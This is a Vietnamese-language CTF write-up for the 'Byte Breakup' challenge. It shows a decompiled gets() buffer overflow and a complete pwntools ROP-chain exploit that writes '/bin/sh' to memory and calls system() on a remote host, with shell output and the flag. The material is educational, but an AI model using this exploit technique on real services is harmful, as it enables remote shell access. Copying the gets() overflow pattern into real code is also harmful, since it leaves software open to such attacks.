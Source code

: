 # Byte Breakup
## Analysis
Lỗi buffer overflow
```
void vuln(void) {
  char local_28 [32];
  
  puts("Enter the password: ");
  gets(local_28);
  puts("Wrong password\n");
  return;
}
```
Hàm soClose chỉ là lệnh ls, nhưng ta sẽ tận dụng hàm system
```
void soClose(void) {
  system("/bin/ls");
  return;
}
```
## Solution
Sử dụng kỹ thuật ROPchain
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./vuln", checksec = False)
con = remote("34.125.199.248", 6969)

rdi = 0x00000000004012bb
rw = 0x404080
system = 0x0401257
ret= 0x401243

# Stage 1: ghi /bin/sh\0
payload = b"A" * 0x28 + p64(rdi) + p64(rw) + p64(elf.plt['gets']) 
# Stage 2: pop shell
payload += p64(rdi) + p64(rw) + p64(ret) + p64(system)

con.sendlineafter(b"password:", payload)
con.send(b"/bin/sh\0")

con.interactive()

```
```
└─$ ./exp.py
[+] Opening connection to 34.125.199.248 on port 6969: Done
[*] Switching to interactive mode
Wrong password
$ ls
bin
boot
dev
etc
home
lib
lib32
...
```
## Flag
```
OSCTF{b1t_byt3_8r3akup}
```